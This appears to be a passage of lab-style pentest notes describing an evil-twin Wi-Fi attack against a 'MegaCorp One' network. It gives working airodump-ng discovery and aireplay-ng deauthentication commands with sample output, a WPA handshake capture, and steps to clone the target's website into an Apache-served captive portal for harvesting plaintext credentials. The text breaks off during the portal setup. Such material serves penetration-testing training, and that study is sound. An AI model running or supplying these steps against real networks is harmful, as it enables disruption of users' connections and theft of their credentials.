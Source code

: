 
# Explanation

  Create a captive portal so attacker can get plain text credentials
  We mimic an existing AP with a captive portal, then we create a rogue AP with a captive portal
  served via http to get credentials.

-----------------------

# Discovering the network
```bash
sudo airodump-ng -w discovery --output-format pcap wlan1mon
```
 CH 12 ][ Elapsed: 0 s ][ 2020-09-14 16:23

 BSSID              PWR  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID

 00:0E:08:90:3A:5F  -75        3        0    0  11  130   WPA2 CCMP   PSK  MegaCorp One Lab

 BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes

 00:0E:08:90:3A:5F  E6:D9:CA:FE:B2:3C  -45    0 - 0e     0        2
 00:0E:08:90:3A:5F  05:E3:5C:E6:D9:A3  -68    0e-54      0        2
 00:0E:08:90:3A:5F  E6:EE:C0:FF:EE:84  -81    0 - 5e   487        6

-----------------------

# Deauth the clients on that AP and get a handshake
```bash
sudo aireplay-ng -0 0 -a 00:0E:08:90:3A:5F wlan1mon
```
CH 12 ][ Elapsed: 0 s ][ 2020-09-14 16:23 ][WPA handshake:  00:0E:08:90:3A:5F ]

 BSSID              PWR  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID

 00:0E:08:90:3A:5F  -75       12        0    0  11  225   WPA2 CCMP   PSK  MegaCorp One Lab

-----------------------

# Build captive portal
```bash
# Install apache if not installed
sudo apt install apache2 libapache2-mod-php

#Copy whole portal
wget -r -l2 https://www.megacorpone.com

# Bring all files to apache served folder
sudo cp index.html /var/www/html/portal/
sudo cp -r ./www.megacorpone.com/assets/ /var/www/html/portal/
sudo cp -r ./www.megacorpone.com/old-site/ /var/www/html/portal/
```
